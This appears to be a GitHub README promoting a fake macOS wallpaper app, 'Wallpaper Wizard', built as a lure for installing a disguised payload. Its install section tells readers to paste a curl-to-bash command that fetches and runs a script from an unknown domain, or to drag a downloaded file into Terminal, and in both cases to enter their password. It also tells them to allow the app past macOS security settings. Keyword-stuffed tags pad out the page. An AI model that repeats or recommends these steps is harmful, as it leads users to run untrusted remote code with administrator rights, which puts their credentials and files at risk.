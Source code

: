 <p align="center">
  <img src="https://i.ibb.co/wh6825LD/1547386232-wallpaper-wizard-2-logo.png" alt="Wallpaper Wizard macOS Banner" />
</p>

<h1 align="center">Wallpaper Wizard for macOS</h1>

<p align="center">
  🖼️ Enjoy a fresh new desktop every day with curated 4K wallpapers and automatic rotation.  
  <br><br>
  ✅ Apple Silicon & Intel native  
  ✅ macOS Sonoma, Ventura, Monterey support  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/170" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20WALLPAPER%20WIZARD%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Wallpaper Wizard for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/LhxMjcKk/1595086384-1.jpg" alt="Wallpaper Wizard Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Wallpaper Wizard?

**Wallpaper Wizard** is a desktop enhancement utility for macOS that delivers **thousands of high-resolution, Retina-ready wallpapers** directly to your screen. It’s more than a wallpaper app — it’s a curated experience for your desktop.

With **auto-rotation**, **thematic collections**, and **multi-monitor support**, Wallpaper Wizard helps you keep your Mac visually fresh and inspiring. Easily pick categories, queue favorite images, or let the app shuffle everything for you — all with minimal system resource usage.

Fully compatible with **Apple Silicon (M1/M2/M3)** and the latest versions of macOS.

---

## ✅ Why Choose Wallpaper Wizard?

- 🖼️ **Access 25,000+ HD & 4K Wallpapers**  
- 🔁 **Auto-Rotate Desktop Backgrounds**  
- 🧠 **Smart Categories & Suggestions**  
- 🖥️ **Multi-Monitor Wallpaper Support**  
- 🎯 **Minimal CPU, Low Battery Impact**  
- ⚡ **Quick Set, Queue & Shuffle Options**  
- 🖌️ **Handpicked, High-Quality Visuals**  
- 💻 **Fully Native for Apple Silicon**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/d4FCDhpV/1595086415-3.jpg" alt="Wallpaper Wizard Category View Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/fd92j81W/1595086431-2.jpg" alt="Wallpaper Preview Gallery Screenshot" />
</p>

---

## 🚀 Key Features

- Curated 4K and Retina wallpapers  
- Auto-rotate with timer settings  
- Search, queue, and favorite wallpapers  
- Multi-display support  
- Smart categories (Nature, Space, Abstract, etc.)  
- Lightweight background app  
- No internet required after sync  
- Works offline once downloaded

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Wallpaper Wizard under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-HD%20Wallpapers%20Manager-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Curated%204K%20Rotator-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Wallpaper Wizard – Make Your Mac Beautiful

Thanks for using **Wallpaper Wizard for macOS**.  
Enjoy a new visual world, one desktop at a time.

---

## 🧭 Usage Context

This app is intended for offline desktop personalization via local assets.  
No persistent syncing or telemetry is used.

All wallpapers are downloaded and stored locally.  
Not affiliated with Apple Inc. or stock providers.

---

## 🔍 Tags

```text
wallpaper wizard mac download, download wallpaper wizard retina 4k, wallpaper wizard auto rotate mac, curated wallpapers app for mac, wallpaper wizard macos m1 support, 4k desktop background changer mac, best wallpaper manager for macbook, mac retina display wallpaper utility, wallpaper wizard native silicon mac, download wallpapers app ventura mac, offline wallpaper organizer for mac, high res wallpaper rotation mac, multi display wallpaper app mac, aesthetic background app macos, mac wallpaper wizard smart collections
